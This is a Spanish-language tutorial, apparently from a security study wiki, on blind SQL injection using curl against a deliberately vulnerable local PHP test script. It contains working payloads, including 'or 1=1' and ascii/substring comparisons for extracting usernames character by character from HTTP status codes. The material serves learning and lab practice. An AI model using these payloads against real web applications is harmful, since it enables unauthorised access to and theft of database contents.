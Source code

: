 # Uso de Curl para Inyecciones SQL a Ciegas

## Introducción

Este documento describe cómo utilizar `curl` para realizar [SQLi](SQLi.md) a ciegas, basándonos en los códigos de estado HTTP devueltos por el servidor. En un entorno real, este tipo de pruebas se llevarían a cabo sobre aplicaciones web vulnerables que no muestran directamente los resultados de las consultas [SQL](SQL.md), pero cuyos códigos de respuesta pueden revelar información útil.

El entorno de pruebas está basado en un servidor local con un script PHP vulnerable llamado `searchUsers.php`. Su funcionamiento es el siguiente:

1. **Conexión a la base de datos**: Se conecta a un servidor MySQL con las credenciales predefinidas.
2. **Recepción de parámetros**: Obtiene el valor de `id` a través de una solicitud GET.
3. **Falta de validación adecuada**: Usa `mysqli_real_escape_string` para sanitizar la entrada, pero **omite las comillas en la consulta SQL**, lo que permite inyecciones sin necesidad de cerrar la cadena con `'`.
4. **Consulta SQL vulnerable**: Ejecuta la consulta `SELECT username FROM users WHERE id = $id`, lo que permite inyectar condiciones SQL adicionales.
5. **Código de respuesta basado en los resultados**:
   - Si se encuentra un usuario con el `id` especificado, devuelve `HTTP/1.1 200 OK`.
   - Si no se encuentra un usuario, devuelve `HTTP/1.1 404 Not Found`.

Este comportamiento nos permite inferir información sobre la base de datos basándonos en los códigos de estado obtenidos tras enviar distintas consultas.

---

Para recoger información con **Curl**, podemos usar `-G --data-urlencode`, lo que nos permite realizar peticiones GET de manera más cómoda y organizada. En este caso, queremos emplearlo para realizar una inyección SQL a ciegas y observar los códigos de estado HTTP en las respuestas.

## Envío de Peticiones con Curl

El siguiente comando nos permite hacer una petición con un parámetro `id`:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=1"
```

Podemos modificar el valor de `id=N` para obtener diferentes respuestas y analizar el comportamiento de la aplicación.

Por ejemplo, si enviamos una consulta con una condición siempre verdadera:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or 1=1"
```

Obtendremos un *código de estado 200*, porque `1=1` es una condición siempre verdadera y la consulta devuelve una respuesta válida, incluso si el identificador `id=9` no existe.

### Ejemplo de Respuestas del Servidor

#### Petición con un ID válido:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=1'
```
**Respuesta:**
```
HTTP/1.1 200 OK
Date: Sat, 29 Mar 2025 19:06:14 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

#### Petición con un ID inexistente:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=5'
```
**Respuesta:**
```
HTTP/1.1 404 Not Found
Date: Sat, 29 Mar 2025 19:06:19 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

## Inyección SQL Basada en Comparación ASCII

Podemos utilizar funciones como `ascii()` y `substring()` para extraer información carácter por carácter. Por ejemplo, si queremos verificar si el primer carácter del nombre de usuario (`username`) es 'a' (`97` en ASCII), enviamos:

```bash
curl -s -I -X GET 'http://localhost/searchUsers.php' -G --data-urlencode 'id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)'
```

Si la respuesta es `200 OK`, significa que la condición es verdadera, lo que nos indica que el `username` en la posición `1,1` es 'a'.

## Automatización con Python

Este método nos permite desarrollar un **script en [Python](Python.md)** que realice múltiples peticiones, probando diferentes valores y analizando las respuestas. De esta manera, podemos extraer datos como nombres de usuario o contraseñas de la base de datos basándonos en los códigos de respuesta HTTP.

---

Este procedimiento es clave para realizar una extracción eficiente en ataques **SQLi a ciegas**, permitiéndonos descubrir información sin ver directamente el resultado de las consultas. 

